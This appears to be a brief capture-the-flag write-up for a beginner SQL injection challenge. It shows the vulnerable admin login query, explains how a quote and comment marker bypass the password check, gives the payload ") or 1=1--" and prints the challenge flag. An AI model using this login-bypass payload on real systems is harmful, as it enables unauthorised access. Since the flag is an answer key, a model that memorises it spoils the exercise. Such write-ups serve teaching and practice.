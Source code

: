 * Category
  * SQL injection
* Solution
  1. SQL command
    * ```SELECT * FROM admin WHERE (username='') AND (password='')```
    * use ```'``` to close the single quote and ```--``` to comment the ```) AND (password='')``` part
* Payload
  1. username = ```') or 1=1--```
  2. password = ```ARBITRARY-VALUE``` (except null)
* ```FLAG{b4by_sql_inj3cti0n}```